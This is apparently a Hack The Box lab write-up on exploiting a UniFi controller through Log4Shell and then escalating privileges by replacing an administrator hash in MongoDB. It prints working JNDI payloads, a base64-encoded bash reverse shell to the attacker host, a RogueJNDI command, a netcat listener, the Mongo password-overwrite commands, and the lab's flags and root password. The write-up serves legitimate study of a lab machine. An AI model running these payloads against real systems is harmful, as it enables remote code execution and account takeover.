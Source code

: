 ```yaml
---
title: HTB Unified — Log4Shell to MongoDB Privilege Escalation
description: A complete walkthrough of exploiting a vulnerable UniFi controller using CVE-2021-44228 (Log4Shell), followed by privilege escalation through MongoDB.
tags: [HTB, Log4Shell, CVE-2021-44228, Privilege Escalation, MongoDB, Burp Suite, RogueJNDI, Penetration Testing]
date: 2025-07-15
author: zerokoollabs
---
```


# HTB Unified — Log4Shell to MongoDB Privilege Escalation

**Target IP**: `10.129.96.149`  
**Attack IP**: `10.10.14.70`  
**Reverse Shell Port**: `4444`

---

## 📑 Table of Contents

- [🕵️ Enumeration](#-enumeration)
- [💣 Log4Shell Exploit Validation](#-log4shell-exploit-validation)
- [🔎 Understanding the Exploit](#-understanding-the-exploit)
- [🧰 Tools Required](#-tools-required)
- [⚙️ Exploiting Log4Shell](#️-exploiting-log4shell)
- [🧑‍💻 Foothold: User Flag](#-foothold-user-flag)
- [📈 Privilege Escalation via MongoDB](#-privilege-escalation-via-mongodb)
- [🔁 Password Replacement](#-password-replacement)
- [🔐 Root Flag](#-root-flag)
- [🧠 Lessons Learned](#-lessons-learned)

---

## 🕵️ Enumeration

```bash
nmap -sC -sV -v 10.129.96.149
```

Open ports:
- `22` (SSH)
- `6789`
- `8080` – redirects to port `8443`
- `8443` – SSL, title: **UniFi Network**, version 6.4.54  
  **CVE-2021-44228 (Log4Shell)** confirmed vulnerable

Web interface:  
[https://10.129.96.149:8443](https://10.129.96.149:8443)

---

## 💣 Log4Shell Exploit Validation

Injected payload into login request via Burp Repeater:

```text
"${jndi:ldap://10.10.14.70:1389/garbageresource}"
```

Response:
- `HTTP 400 Bad Request`
- Body: `api.err.InvalidPayload`

Despite the error, the Log4j engine **processed the payload**.  
To confirm this:

```bash
sudo tcpdump -i tun0 port 389
# or use Wireshark
```

Both tools confirmed outbound LDAP traffic — a classic indicator of Log4Shell triggering remote lookups.

---

## 🔎 Understanding the Exploit

- `${...}` → Log4j expression syntax
- `jndi:ldap://...` → triggers remote class loading
- Log4j (pre-2.15.0) + JNDI + LDAP = 🚨 Remote Code Execution

**JNDI**: Java Naming and Directory Interface  
**LDAP**: Lightweight Directory Access Protocol  

---

## 🧰 Tools Required

```bash
sudo apt install openjdk-17-jdk maven
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi && mvn package
```

---

## ⚙️ Exploiting Log4Shell

1. Base64-encode reverse shell:
   ```bash
   echo 'bash -c "bash -i >& /dev/tcp/10.10.14.70/4444 0>&1"' | base64
   ```

2. Launch RogueJNDI server:
   ```bash
   java -jar target/RogueJndi-1.1.jar      --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNzAvNDQ0NCAwPiYxCg==} | {base64,-d} | {bash,-i}"      --hostname "10.10.14.70"
   ```

3. Start netcat listener:
   ```bash
   nc -lvnp 4444
   ```

4. Final payload into login request:
   ```text
   "${jndi:ldap://10.10.14.70:1389/o=tomcat}"
   ```

5. Shell upgraded with:
   ```bash
   script /dev/null -c bash
   ```

---

## 🧑‍💻 Foothold: User Flag

User flag found at:

```bash
/home/michael/user.txt
6ced1a6a89e666c0620cdb10262ba127
```

---

## 📈 Privilege Escalation via MongoDB

Mongo was running locally:

```bash
ps aux | grep mongo
```

Enumerated the `ace` database:

```bash
mongo --port 27117 ace --eval 'db.admin.find().forEach(printjson);'
```

Found administrator hash under `x_shadow`.

---

## 🔁 Password Replacement

Generated SHA-512 hash using salt:

```bash
mkpasswd -m sha-512 -S Ry6Vdbse Password1234
```

Updated password directly in Mongo:

```bash
mongo --port 27117 ace --eval '
db.admin.update(
  { "_id": ObjectId("61ce278f46e0fb0012d47ee4") },
  { $set: { "x_shadow": "$6$Ry6Vdbse$.iOgzx5bue2lXcKEbZw6axl3NZIazyfC4wOtNNXuxzX2.XEiDeJpNoDW4DOnyztRlXjVQY5mTKAVIRVmYfWin1" } }
)'
```

Logged into the UniFi web panel as:

```
Username: administrator
Password: Password1234
```

Discovered plaintext root credentials:
```
NotACrackablePassword4U2022
```

---

## 🔐 Root Flag

SSH'd into target and retrieved:

```bash
cat /root/root.txt
e50bc93c75b634e4b272d2f771c33681
```

---

## 🧠 Lessons Learned

- Log4Shell’s danger lies in its abuse of a logging framework to perform dynamic remote code loading.
- Burp Suite, tcpdump, and Wireshark are essential tools to validate dangerous behavior.
- MongoDB without auth controls + local access = privilege escalation path.
- Always sanitize input reaching APIs and logging systems.

---

### ✅ Pwned.
